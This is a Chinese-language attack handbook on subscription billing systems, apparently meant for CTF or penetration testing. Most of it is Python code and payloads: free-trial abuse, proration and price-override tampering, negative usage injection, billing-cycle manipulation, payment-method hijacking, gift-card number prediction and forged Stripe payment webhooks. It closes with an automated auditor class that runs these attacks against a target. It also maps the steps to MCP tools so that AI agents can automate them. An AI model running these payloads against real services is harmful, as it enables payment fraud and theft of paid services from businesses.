

# Payment Subscription — 订阅/定期付款攻击深度手册

> 订阅系统 = 持续的信任边界。每次自动扣款、每次续期、每次升降级都是独立的攻击面。目标：免费永久订阅、跨计划权益、超额使用不计费、取消后仍保留权益。

## 0. 订阅状态模型

```
            ┌─────────┐    auto-renew     ┌──────────┐
            │  active  │ ───────────────▶ │  active   │
            └─────────┘                   │ (renewed) │
                 │                        └──────────┘
                 │ cancel                       │
                 ▼                              ▼
            ┌──────────┐                 ┌──────────┐
            │ cancelled│                 │  expired  │
            │(grace pd)│                 └──────────┘
            └──────────┘
                 │
     ┌───────────┼───────────┐
     ▼           ▼           ▼
  reactivate  refunded   permanently
                         cancelled
```

关键攻击窗口:
- trial → active (试用转付费的校验)
- active → cancelled → reactivate (取消后恢复)
- active → past_due → cancelled (欠费宽限期)
- plan_switch: basic → premium (升级时的差额计算)
- renewal: 自动续费的前置条件

## 1. 免费试用滥用

### 1.1 试用绕过技术

```python
# trial_bypass.py
import requests, random, string, time

BASE = "https://target"
S = requests.Session()

def trial_abuse_matrix():
    """试用滥用全矩阵"""

    # === 1. 无限试用 ===
    # 方法 A: 相同邮箱 + 不同大小写
    emails = [
        "test@gmail.com",
        "Test@gmail.com",
        "TEST@gmail.com",
        "test@Gmail.com",
        "test@googlemail.com",     # Gmail alias
        "test+1@gmail.com",         # Gmail plus addressing
        "t.est@gmail.com",          # Gmail dots
        "test@.gmail.com",         # trailing dot
    ]

    # 方法 B: 相同手机号 + 不同格式
    phones = [
        "+8613800138000",
        "8613800138000",
        "013800138000",
        "13800138000",
        "+86 138 0013 8000",
    ]

    # 方法 C: 虚拟信用卡 (用于 pre-auth $1)
    # 如果只是 $1 预授权验证 → 虚拟卡/预付卡通过验证 → 试用
    fake_cards = [
        {"number": "4242424242424242", "brand": "Visa"},
        {"number": "5555555555554444", "brand": "Mastercard"},
        {"number": "378282246310005",  "brand": "Amex"},
        {"number": "6011111111111117", "brand": "Discover"},
    ]

    # === 2. 时间操纵 ===
    # 修改客户端的试用结束时间
    time_attacks = {
        "created_at_past": {"created_at": "2020-01-01T00:00:00Z"},
        "trial_end_future": {"trial_ends_at": "2099-12-31T23:59:59Z"},
        "negative_trial_days": {"trial_days": -999},
        "zero_trial_days": {"trial_days": 0},
    }

    # === 3. 试用资格绕过 ===
    trial_qualification_bypass = {
        "is_new_user": True,          # 直接传参
        "has_trialed": False,         # 覆盖服务端检查
        "previous_trials": 0,
        "trial_eligible": True,
        "skip_trial_check": True,
    }
```

### 1.2 试用与付费的边界攻击

```python
def trial_to_paid_boundary():
    """试用结束转付费时的攻击"""
    attacks = {
        # 攻击 1: 试用结束前取消 → 但权益持续
        "cancel_before_end": {
            "flow": "试用 7 天 → 第 6 天取消 → 第 8 天权益仍在",
            "check": "subscription_ends_at 已过，但 vip_level 或 role 未变"
        },

        # 攻击 2: 试用结束后不自动扣款 → 降级到 free
        # → 如果降级逻辑有 bug → 停留在当前 plan
        "downgrade_failure": {
            "flow": "试用结束 → 自动降级失败 → 免费留在付费 plan",
        },

        # 攻击 3: 试用结束 → 扣款失败 → 进入 past_due
        # → past_due 期间功能不受限
        "past_due_unlimited": {
            "flow": "绑定无效卡 → 试用结束 → past_due → 永久使用",
        },

        # 攻击 4: 切换支付方式重置试用期
        "payment_method_reset": {
            "flow": "绑定新卡 → 系统认为是新用户 → 再次试用",
        },
    }
```

## 2. 计划升降级攻击

### 2.1 升级按比例计费漏洞

```python
# Proration (按比例计费):
# basic($10/月) → premium($30/月), 当月已用 15 天
# 应支付: ($30 - $10) * (15/30) = $10
# 如果 proration 计算有误:

def proration_attack():
    """按比例计费攻击"""
    attacks = {
        # 攻击 1: 在月末最后一天升级 → 付 1 天差价 → 享整月 premium
        "last_day_upgrade": {
            "current_plan": "basic",
            "target_plan": "premium",
            "current_period_used": 29,   # 当月用了 29 天
            "expected_charge": (30 - 10) * (1/30),  # ~$0.67
        },

        # 攻击 2: 升级后立即降级 → 可能触发退款 > 实付
        "upgrade_then_downgrade": {
            "flow": "升级付 $10 → 立即降级 → 退款 $10 → 但 premium 权益不回收"
        },

        # 攻击 3: 通过 API 切换到不存在的 plan
        "switch_to_invalid_plan": {
            "plan_id": -1,
            "plan_id": "enterprise",  # 不存在
            "plan_id": "internal_test",
            "plan_id": None,
        },

        # 攻击 4: 价格覆盖
        "price_override_on_switch": {
            "plan_id": "premium",
            "price_override": 0,
            "custom_price": 0.01,
        },
    }
```

### 2.2 跨计划权益残留

```python
def cross_plan_entitlement():
    """降级后权益不回收"""
    # 场景: premium 有 100GB 存储 → 降级到 basic (10GB)
    # → 已用 80GB → 降级后仍可访问 80GB?

    tests = [
        # 1. 降级后检查 quota
        {"check": "storage_used vs storage_limit 降级后"},
        # 2. 降级后检查 API 权限
        {"check": "premium-only API key 降级后仍有效"},
        # 3. 降级后检查 team member 数量
        {"check": "降级 basic 后仍有 premium 的 seat count"},
        # 4. 并发升降级
        {"check": "升级 + 降级同时发起 → 两个操作都成功?"},
    ]
```

## 3. 自动续费漏洞

### 3.1 续费金额操纵

```python
def renewal_amount_manipulation():
    """续费金额攻击"""
    # 如果续费时取的是订单创建时的 plan 价格:
    # → 创建时 plan 价格 $10
    # → 涨价到 $30
    # → 但续费仍是 $10?

    # 如果续费金额可以被修改:
    renewal_payloads = {
        "change_price_before_renewal": {
            "flow": "修改 plan 的 price → 0.01 → 续费时扣 0.01"
        },
        "coupon_on_renewal": {
            "flow": "在续费前应用永久优惠券 → 续费扣优惠后价格"
        },
        "currency_change": {
            "flow": "切换货币 → 汇率优势 → 低价续费"
        },
    }
```

### 3.2 续费失败的状态

```python
def renewal_failure_states():
    """续费失败后的状态机漏洞"""
    states_to_test = {
        # past_due: 扣款失败，但服务继续
        "past_due_access": "扣款失败后权益是否保留? 保留多久?",

        # 重试逻辑
        "retry_interval": "重试间隔内 (如 3 天) 权益保护期",
        "retry_exhaustion": "所有重试都失败 → cancelled → 数据是否保留?",

        # 恢复订阅
        "reactivation": "更新支付方式后 → 是否按原价续费?",
        "reactivation_gap": "暂停 2 个月 → 续费后权益是否补回?",
    }
```

## 4. 计量计费滥用

### 4.1 API 调用/用量计费绕过

```python
# Metered billing: 按 API 调用/存储/带宽计费
# 如果用量统计可以被操纵:

def metered_billing_abuse():
    """计量计费绕过"""
    attacks = {
        # 攻击 1: 用量数据注入
        "usage_injection": {
            "endpoint": "/api/usage/report",
            "payload": {"api_calls": -1000000, "bandwidth_gb": -999},
        },

        # 攻击 2: 用量重置
        "usage_reset": {
            "endpoint": "/api/usage/reset",
            "method": "POST",
            "risk": "无鉴权的重置接口"
        },

        # 攻击 3: 用量上限绕过
        "cap_bypass": {
            "flow": "free 计划限 1000 次 → 超额后降级但不阻止?"
        },

        # 攻击 4: 用量聚合间隙
        "aggregation_gap": {
            "flow": "用量每分钟上报一次 → 在 59 秒内无限使用"
        },

        # 攻击 5: 子账号用量不在主账号统计
        "subaccount_bypass": {
            "flow": "创建子账号 → 用量不计入主账号 → 无限使用"
        },
    }
```

### 4.2 计费周期操纵

```python
def billing_cycle_manipulation():
    """计费周期操纵"""
    # 如果计费周期锚定在创建时间:
    # 2024-01-15 创建 → 每月 15 号计费
    # 如果可以把 created_at 改成 2024-01-31:
    # → 每月 31 号计费 → 2 月没有 31 号 → 跳过 2 月?

    cycle_attacks = [
        {"billing_cycle_anchor": "2024-01-31T23:59:59Z"},
        {"billing_cycle_anchor": "2024-02-29T00:00:00Z"},  # 闰年
        {"billing_cycle_day": 31},
        {"billing_cycle_day": 0},     # 0 号 = 从不?
        {"billing_cycle_day": -1},
        {"billing_cycle_day": 32},     # 无效 → default?
    ]
```

## 5. 支付方式管理攻击

### 5.1 支付方式劫持

```python
# 如果多用户共享支付方式的系统 (企业/家庭账户):
def payment_method_hijack():
    """支付方式劫持"""
    attacks = {
        # 1. 将自己的订阅绑定到他人支付方式
        "bind_others_pm": {
            "endpoint": "/api/subscription/{sub_id}/payment-method",
            "payload": {"payment_method_id": "OTHER_USERS_PM_ID"}
        },

        # 2. 子账号添加支付方式 → 主账号付费
        "subaccount_piggyback": {
            "flow": "被邀请到企业 → 升级自己 → 企业主付款"
        },

        # 3. 默认支付方式降级
        "default_pm_fallback": {
            "flow": "绑定无效卡 + 礼品卡余额 $0.01 → "
                    "大额续费时卡失败 → 礼品卡余额不足 → 但权益保留"
        },
    }
```

### 5.2 SEPA/ACH 直接借记攻击

```python
# 银行直接借记 (非信用卡):
# 有更长的争议窗口 (可达 8 周)
# 可能的攻击:
def direct_debit_attacks():
    """直接借记攻击"""
    attacks = [
        "支付成功 → 收到权益 → 银行争议 (chargeback) → 退款",
        "Mandate (授权书) 伪造",
        "SEPA 撤销窗口 (8 周) → 使用 7 周 → 撤销",
        "ACH 退回 (R01/R02/R03) 在结算后发生",
    ]
```

## 6. 礼品卡/储值余额

### 6.1 礼品卡生成算法攻击

```python
# 如果礼品卡号是可预测的:
def gift_card_algorithm_attack():
    """礼品卡算法攻击"""
    # 常见格式:
    # XXXX-XXXX-XXXX-XXXX
    # 基础: 随机 16 位 → 不可预测
    # 但有 Luhn 校验 → 可生成有效卡号

    # 如果有 sequence:
    # GC-2024-00001, GC-2024-00002, ...

    # 如果格式是: prefix + timestamp + random + checksum
    # 知道算法就可以生成

    # 攻击:
    # 1. 买一张卡 → 反推算法 → 生成更多
    # 2. 如果校验码弱 (CRC8/简单异或) → 爆破
    pass
```

### 6.2 余额融合/转移攻击

```python
def balance_transfer_attacks():
    """余额转移攻击"""
    attacks = {
        # 1. 余额合并: A $50 + B $50 → 合并到 A = $100
        "balance_merge": {
            "risk": "两个账号余额合并 → 一个消费一个退款 → 双倍"
        },

        # 2. 负余额转移:
        "negative_balance_transfer": {
            "flow": "A 余额 -$1000 → 转移到 B → B 余额 +$1000, A 变 0"
        },

        # 3. 冻结/解冻竞态:
        "freeze_race": {
            "flow": "冻结余额中转账 + 消费 → 双重使用"
        },

        # 4. 跨币种余额:
        "cross_currency_balance": {
            "flow": "USD 余额转 CNY → 汇率四舍五入差异 → 套利"
        },

        # 5. 过期余额恢复:
        "expired_balance_reactivation": {
            "flow": "余额过期 → 退款一笔 → 过期余额被重新激活"
        },
    }
```

## 7. 订阅 Webhook / 事件攻击

### 7.1 Stripe Billing Webhook

```python
# Stripe 订阅事件:
STRIPE_SUBSCRIPTION_EVENTS = {
    "customer.subscription.created":    "订阅创建",
    "customer.subscription.updated":    "订阅更新 (含 plan 变更)",
    "customer.subscription.deleted":    "订阅取消",
    "customer.subscription.trial_will_end": "试用即将结束",
    "invoice.payment_succeeded":        "账单支付成功 → 续期",
    "invoice.payment_failed":           "账单支付失败 → 进入 past_due",
    "invoice.payment_action_required":  "需要 3D Secure 验证",
    "customer.subscription.paused":     "订阅暂停",
    "customer.subscription.resumed":    "订阅恢复",
}

# 伪造这些事件 = 直接控制订阅状态
STRIPE_FORGERY = {
    "event": "invoice.payment_succeeded",
    "data": {
        "object": {
            "id": "in_FAKE",
            "subscription": "sub_TARGET",
            "amount_paid": 0,              # ← 付 0 元续期!
            "status": "paid",
            "billing_reason": "subscription_cycle",
            "period_end": 1735689600,       # 下个周期
        }
    }
}
```

### 7.2 订阅事件竞态

```python
# 关键竞态点:
def subscription_event_race():
    races = {
        # 1. cancel + renew 同时
        "cancel_renew": {
            "events": ["customer.subscription.deleted",
                       "invoice.payment_succeeded"],
            "result": "已取消但仍被扣款 → 扣了款但无权益?"
        },

        # 2. plan_change + payment_failed
        "upgrade_payment_fail": {
            "events": ["customer.subscription.updated (premium)",
                       "invoice.payment_failed"],
            "result": "计划已升级但未付款 → 免费 premium?"
        },

        # 3. trial_end + cancel + reactivate
        "trial_cancel_reactivate": {
            "events": ["trial_will_end", "deleted", "created"],
            "result": "试用-取消-重新订阅 → 再次试用?"
        },
    }
```

## 8. 批量/企业订阅攻击

### 8.1 Seat 管理绕过

```python
# 企业按 seat 计费: 5 seats = $50/月
# 如果 seat 管理有漏洞:

def seat_management_attack():
    """Seat 管理绕过"""
    attacks = {
        # 1. 超额添加
        "over_seat": {
            "flow": "5 seats → 添加第 6 个成员 → 不拦截 → 不额外计费"
        },

        # 2. Seat 负数
        "negative_seats": {
            "flow": "修改 seats = -1 → 总价 = -$10 → 余额增加?"
        },

        # 3. Seat 复用
        "seat_reuse": {
            "flow": "移除成员 A → 立即添加成员 B → 同一 seat 多次用"
        },

        # 4. 跨企业 Seat
        "cross_org_seat": {
            "flow": "组织 A 的 seat 给组织 B 的成员用"
        },
    }
```

## 9. 订阅系统完整攻击链

```python
# subscription_full_audit.py
class SubscriptionAuditor:
    def __init__(self, base_url):
        self.base = base_url
        self.s = requests.Session()

    def audit_all(self):
        checks = [
            self.trial_bypass,
            self.plan_switch_manipulation,
            self.renewal_price_bypass,
            self.cancel_retain_entitlement,
            self.metered_billing_bypass,
            self.payment_method_hijack,
            self.gift_card_generation,
            self.webhook_forgery,
            self.seat_bypass,
            self.cross_plan_data_access,
        ]
        for check in checks:
            check()

    def trial_bypass(self):
        emails = [f"test+{i}@gmail.com" for i in range(10)]
        for email in emails:
            r = self.s.post(f"{self.base}/api/register", json={
                "email": email, "password": "Test1234!"
            })
            if "trial_ends_at" in r.text:
                print(f"[!] Unlimited trial: {email}")

    def plan_switch_manipulation(self):
        # 第 29 天升级 → 付 1 天差价 → 享整月
        r = self.s.post(f"{self.base}/api/subscription/switch", json={
            "plan": "premium",
            "proration_date": "2024-01-31T23:59:59Z"  # 月末
        })

    def cancel_retain_entitlement(self):
        # 取消 → 检查权益是否回收
        self.s.post(f"{self.base}/api/subscription/cancel")
        time.sleep(5)
        r = self.s.get(f"{self.base}/api/me")
        if r.json().get("plan") == "premium":
            print("[!] Cancelled but plan retained!")

    def webhook_forgery(self):
        # 直接伪造 Stripe invoice.payment_succeeded
        r = self.s.post(f"{self.base}/stripe/webhook", json={
            "type": "invoice.payment_succeeded",
            "data": {
                "object": {
                    "subscription": "sub_TARGET",
                    "amount_paid": 0,
                    "status": "paid",
                    "billing_reason": "subscription_cycle",
                }
            }
        })
        if r.status_code == 200:
            print("[!] Stripe webhook forgery accepted!")
```

## 10. 攻击链总图



## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| 订阅 API 探测 | `http_probe` | HTTP GET 探测订阅管理端点 |
| 知识检索 | `kb_router` | 按订阅攻击信号搜索知识库 |

## 证据与验证闭环

- 保存 baseline 与单变量 probe 的完整请求、响应状态、关键响应头和正文摘要。
- 将“响应差异”与服务端副作用分开记录；只有权限、状态、数据或 Flag 可重复变化才算确认。
- 从全新 session/重置状态最小化重放，记录依赖、并发参数、时间窗口及失败样本。
- 输出统一放入 `exports/ctf-website/<case>/`，凭据只用 `REDACTED` 占位，自动检索 `flag{}`、`CTF{}`、`DASCTF{}`。
